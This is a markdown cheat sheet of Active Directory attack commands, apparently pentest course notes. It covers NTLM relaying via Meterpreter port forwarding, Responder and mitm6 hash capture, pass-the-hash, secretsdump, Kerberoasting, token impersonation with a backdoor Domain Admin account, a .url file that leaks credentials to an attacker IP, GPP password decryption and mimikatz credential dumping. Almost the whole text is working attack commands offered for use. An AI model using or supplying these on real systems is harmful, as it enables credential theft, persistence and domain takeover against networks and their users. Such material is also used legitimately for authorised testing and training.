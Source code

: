 # Remote NTLM Relaying via Meterpreter (Port Forwarding)
- On the victim machine
```powershell
sc stop netlogon
sc stop lanmanserver
sc config lanmanserver start= disabled
sc stop lanmanworkstation
sc config lanmanworkstation start= disabled
```
- In the Meterpreter session
```powershell
portfwd add -R -L 0.0.0.0 -l 445 -p 445
```
- On ntlmrelayx
```powershell
ntlmrelayx.py -t smb://10.200.69.30 -smb2support
```
# Capturing hashes using RESPONDER
```bash
 sudo responder -I tun0 -dwPv
```
# SMB Relay 
> SMB signing must be disabled
Scan host without smb signing
```bash
nmap --script=smb2-security-mode.nse -p445 192.168.107.186 -Pn
```
- Turn off smb and http from **Responder.conf** file
- Run Responder
```bash
sudo responder -I tun0 -rdw -v
```
- Setup another tool `ntlmrelayx.py`
```bash
ntlmrelayx.py -tf <target file> -smb2support
```
# IPv6 DNS Takeover via mitm6 & ntlmrelayx
- Set up ntlmrelayx.
```bash
ntlmrelayx.py -6 -t ldaps://<target IP> -wh fakepad.marvel.local -l lootme
```
- Setup MITM6.
```bash
sudo mitm6 -d <domain name>
```
On successful it will create a lootme folder in the local machine with a bunch of information.

# Pass Attacks
- Using **Crackmapexec smb**
```bash
crackmapexec smb xxx.xxx.xxx.0/24 -u <uname> -d <domain> -p <password>

crackmapexec smb xxx.xxx.xxx.0/24 -u <uname> -d <domain> -H <hash> --local-auth
```
# Dumping and Cracking hashes
- using **secretsdump**
```bash
secretsdump.py <domain>/<user>:<password>@<target IP>

secretsdump.py <user>:@<IP> -hashes <hash>
```
# Kerberosting
- Using **GetUserSPNs**
```bash
sudo GetUserSPNs.py <domain>/<user>:<password> -dc-ip <IP> -request
```
# Token Impersonation
- Using **Metasploit**
```bash
meterpreter> load incognito
meterpreter> list tokens -u
meterpreter> impersonate_token <token name>
```
- Next for persistence, we can add new user and run secretsdump.
```bash
meterpreter> net user /add badboy password123 /DOMAIN
meterpreter> net group "Domain Admins" badboy /ADD /DOMAIN


secretsdump.py <Domain>/badboy:'password123'@<IP>
```
# URL File Attacks
- Make an internet shortcut file (Example: "@test.url")
- Put the file into the shared directory on SMB
```text
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\<IP>\%USERNAME%.icon
IconIndex=1
```
- Set up the responder.
```bash
responder -I eth0 -v
```
When the user moves to the shared directory credentials data intercepts through the responder.

# GPP Attacks
- Using Metasploit.
```bash
use auxiliary/scanner/smb/smb_enum_gpp
```
- Using SMBclient, Check for anonymous login allowed
```bash
smbclient -L \\\\<IP>\\

smbclient \\\\<IP>\\<anonymous login allowed share>
prompt off
recurse on
mget *
```
- Check for **Group.xml** file
- Copy the cpassword and run cmd to decrypt it.
```bash
 gpp-decrypt <cPassword>
```
- Using GetUserSPNs we can dump credentials.
```bash
 GetUserSPNs.py <Domain/username:password> -dc-ip <DC IP> -request
```
# Mimikatz Credentials Dumping
```bash
privilege::debug
sekurlsa:logonpasswords
```
# 

